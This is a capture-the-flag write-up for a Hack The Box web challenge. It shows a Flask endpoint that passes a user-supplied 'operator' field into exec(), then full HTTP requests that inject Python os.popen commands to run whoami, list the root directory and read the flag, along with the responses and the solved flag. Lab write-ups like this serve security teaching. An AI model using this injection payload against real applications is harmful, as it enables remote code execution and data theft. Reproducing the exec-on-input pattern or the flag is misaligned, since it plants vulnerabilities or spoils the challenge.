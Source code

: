 ```yaml
---
title: Day 1 - Web
date: 2022-11-13 12:00:00
categories: [HTB,CTF]
tags: [htb]
---
```


We are presented with an application that let's us play against a ghost that wants to destroy the fun of halloween. Our goal is to stop the ghost and get our flag

# Enumeration

## Download Resources

Let's download the associated files for our challenge and check the content

```bash
.
├── build-docker.sh
├── challenge
│   ├── application
│   │   ├── blueprints
│   │   │   └── routes.py
│   │   ├── main.py
│   │   ├── static
│   │   │   ├── css
│   │   │   │   ├── card.css
│   │   │   │   ├── game.css
│   │   │   │   └── index.css
│   │   │   ├── images
│   │   │   │   ├── alive.gif
│   │   │   │   ├── bottom-circle.png
│   │   │   │   └── dead.gif
│   │   │   └── js
│   │   │       ├── card.js
│   │   │       ├── jquery-migrate-1.2.1.js
│   │   │       ├── jquery.min.js
│   │   │       └── ui.js
│   │   ├── templates
│   │   │   └── index.html
│   │   └── util.py
│   └── run.py
├── config
│   └── supervisord.conf
├── Dockerfile
└── flag.txt
```

## Check for vulnerabilities

If you have access to the source you often don't have to start with collecting infos on the page itself. So I started with checking the source code of my target.

When it comes down to Webapps I'll start with looking for API endpoints, they often contain some sort of vulnerability

Added some comments in this example just to showcase what paremeter is vulnerable and why

**routes.py**

```python
from flask import Blueprint, render_template, request
from application.util import response

web = Blueprint('web', __name__)
api = Blueprint('api', __name__)

@web.route('/')
def index():
    return render_template('index.html')

@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

		# Current health of our enemy
    current_health = data.get('current_health')
    # Attack Power of the card we drew
    attack_power = data.get('attack_power')
    # Did we do damage or did the target get health?
    operator = data.get('operator')

		# If any var isn't set display message "All fields are required"
    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
		    # Can you spot the vulnerable parameter?
		    # int(current_health) = isn't it as this has to be an integer otherwise compile will fail
		    # int(attack_power) = isn't it as this has to be an integer otherwise compile will fail
		    # operator = is a simple string which will allow us to use it for code execution!
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        # Always an bad idea to execute stuff from user controlled input
        exec(code, result)
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

# Exploitation

## POC

**POST Request**

```http
POST /api/get_health HTTP/1.1
Host: 161.35.168.67:31480
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://161.35.168.67:31480/
Content-Type: application/json
Origin: http://161.35.168.67:31480
Content-Length: 124
Connection: close

{"current_health":"100","attack_power":"1",
"operator":  ";import os;cmd='whoami';test=os.popen(cmd).read();result=test;#"}
```

**Response**

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.8.15
Date: Sat, 22 Oct 2022 17:04:06 GMT
Content-Type: application/json
Content-Length: 21
Connection: close

{"message":"root\n"}
```

## Flag

**Check Files - POST Request**
```http
POST /api/get_health HTTP/1.1
Host: 161.35.168.67:31480
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://161.35.168.67:31480/
Content-Type: application/json
Origin: http://161.35.168.67:31480
Content-Length: 122
Connection: close

{"current_health":"100","attack_power":"1",
"operator":  ";import os;cmd='ls /';test=os.popen(cmd).read();result=test;#"}
```

**Check Files - Response**

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.8.15
Date: Sat, 22 Oct 2022 17:04:19 GMT
Content-Type: application/json
Content-Length: 121
Connection: close

{"message":"app\nbin\ndev\netc\nflag.txt\nhome\nlib\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n"}
```

**Display Flag - POST Request**

```http
POST /api/get_health HTTP/1.1
Host: 161.35.168.67:31480
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://161.35.168.67:31480/
Content-Type: application/json
Origin: http://161.35.168.67:31480
Content-Length: 131
Connection: close

{"current_health":"100","attack_power":"1",
"operator":  ";import os;cmd='cat /flag.txt';test=os.popen(cmd).read();result=test;#"}
```

**Display Flag - Response**

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.8.15
Date: Sat, 22 Oct 2022 17:04:32 GMT
Content-Type: application/json
Content-Length: 47
Connection: close

{"message":"HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}"}
```